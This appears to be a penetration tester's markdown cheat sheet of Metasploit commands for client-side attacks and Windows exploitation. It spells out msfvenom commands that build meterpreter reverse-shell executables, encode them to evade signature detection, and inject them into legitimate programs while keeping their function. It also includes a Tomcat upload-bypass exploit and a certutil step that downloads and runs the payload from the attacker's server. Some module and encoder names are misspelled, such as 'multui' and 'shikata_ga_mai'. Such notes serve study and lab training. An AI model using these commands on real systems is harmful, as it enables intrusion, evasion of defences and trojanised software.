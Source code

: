 
# Client-Side Attacks

##### Payloads
- `msfvenom --list payload` -- list the payload
- `msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -f exe > /path/to/payload.exe`
- `msfvenom --list formats`
- set up hander (before executing payload)
	- use multi/handler
	- set payload windows/x64/meterpreter/reverse_tcp
	- set LHOST 10.12.12.1
	- set LPORT 1234
	- run
- Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature
- `msfvenom --list encoders`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -i 10 -e x86/shikata_ga_mai -f exe > /path/to/payload.exe`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -i 10 -e x86/shikata_ga_mai -f exe -x /path/to/exe/file/for/injection > /path/to/payload.exe` -- to inject the payload in portable executable
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -i 10 -e x86/shikata_ga_mai -f exe -k -x /path/to/exe/file/for/injection > /path/to/payload.exe` -- to inject the payload in portable executable while keeping original functionality of exe

---
---

# Exploitation

###### Windows Exploitation
- Winrm
	- `auxiliary/scanner/winrm/winrm_login`
	- `auxiliary/scanner/winrm/winrm_cmd`
- Apache V58.5.19
	- `exploit/multui/http/tomcat_jsp_upload_bypass`
	- `set payload java/jsp_shell_bind_tcp`
	- `set SHELL cmd`
	- the above will only give shell for meterpreter we need to upload the exe
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=1234 -f exe > meterpreter.exe`
	- `python3 -m http.server 80` 
	- on shell 
	- `certutil -urlcache -f http://[your IP]/meterpreter.exe meterpreter.exe`
	- now make .rc file
		- vim handler.rc
		- use multi/handler
		- set PAYLOAD windows/meterpreter/reverse_tcp
		- set LPORT 1234
		- set LHOST [YOUR IP]
		- run
	- msfconsole -r handler.rc
	- on shell .\meterpreter.exe
###### Linux Exploitation
- always search for versions (eg., libssh-ssh, haraka smtp) instead of name
